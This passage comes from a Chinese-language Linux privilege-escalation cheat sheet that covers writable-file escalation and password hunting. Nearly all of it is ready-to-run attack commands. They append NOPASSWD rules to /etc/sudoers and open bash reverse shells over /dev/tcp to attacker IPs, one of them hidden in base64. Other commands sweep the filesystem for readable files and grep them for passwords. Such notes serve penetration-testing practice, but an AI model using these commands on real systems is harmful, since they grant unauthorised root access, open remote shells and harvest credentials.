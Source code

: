 提权指南 https://gtfobins.github.io/

## 6.10、可写文件提权

高权限可写文件寻找

```
find / -type f -perm -u+wx -perm -u+s -print
find / -type f -perm -u+wx \( -user root -o -group root \) -print
find / -type f  -writable 2>/dev/null
find / -perm -o=rw 2>/dev/null
```

可写文件添加sudo权限提权

```
# 全部用户添加
echo "ALL ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers

# 为指定admin用户添加全部权限
echo "admin ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers

# 指定用户添加切换权限
echo "admin ALL=(ALL) NOPASSWD: /bin/su" >> /etc/sudoers
echo "xxxx ALL=(ALL) NOPASSWD: /bin/su" >> /etc/sudoers
echo 'echo "ALL ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' >> xxx.txt
```

可写文件反弹shell提权

```
### bash反弹shell

/bin/bash -i >& /dev/tcp/192.168.56.102/4444 0>&1

/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.56.102/8888 0>&1"

bash -c 'exec bash -i &>/dev/tcp/192.168.169.129/6666 <&1'

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvODA4MCAwPiYx}|{base64,-d}|{bash,-i}
```
## 6.11、密码寻找

使用find命令，检查当前用户所有可读的文件，生成一个文件的绝对路径列表保存在一个文件中
```
find / -type f -readable 2>/dev/null > /tmp/readable_files.txt

find / -type f -exec test -r {} \; -print 2>/dev/null > /tmp/readable_files.txt
```
不支持-readable的环境
```
find / -type f \( -perm -u=r -o -perm -g=r -o -perm -o=r \) -exec test -r {} \; -print 2>/dev/null > /tmp/readable_files.txt

find / -path /proc -prune -o -type f \( -perm -u=r -o -perm -g=r -o -perm -o=r \) -exec test -r {} \; -print 2>/dev/null > /tmp/readable_files.txt &
```
在文件列表的文件中过滤关键词
```
for i in $(cat readable_files.txt);do grep -El 'pass' $i;done > content_search_pass.txt &
```
